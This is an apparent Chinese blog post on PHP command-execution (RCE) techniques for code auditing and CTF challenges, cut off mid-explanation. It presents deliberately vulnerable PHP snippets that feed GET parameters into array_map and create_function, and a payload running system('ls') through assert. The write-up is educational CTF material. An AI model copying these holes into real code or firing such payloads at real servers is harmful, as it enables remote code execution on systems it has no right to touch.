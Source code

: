```yaml
---
layout: post
title: "PHP命令执行集锦"
date: "2022-03-21T08:33:04.421Z"
---
```

PHP命令执行集锦
=========

代码审计总要遇到命令执行或者说RCE，打CTF的过程中难免不会碰见，毕竟PHP是世界上最好的语言，总结一下...

#### **前言**

代码审计总要遇到命令执行或者说RCE，打CTF的过程中难免不会碰见，毕竟**PHP是世界上最好的语言**，总结一下

#### **命令执行函数**

##### **E.g.1**

 <?php   
 error\_reporting(0);   
 show\_source(\_\_FILE\_\_);   
 $a = "$\_GET\[c\]";   
 $b = "$\_GET\[d\]";   
 $array\[0\] =$b;   
 $c = array\_map($a,$array);   
 ?> 

传入参数c和d，array\_map函数作用将**$a**作为函数，**$array**作为参数，构造paylaod

> ?c=assert&d=system(%27ls%27);

##### **E.g.2**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[b\]";  
$b = create\_function('',$a);  
$b();  
?>

**create\_function** 函数会创建一个匿名函数（`lambda`样式），在第一个`echo`中显示出名字，并在第二个`echo`语句中执行了此函数。

$b = create\_function('',$a);

这里$a为函数，' '为参数

那么可以看作为

function lambda(){  
•   echo ' ' ;  
}

传入payload
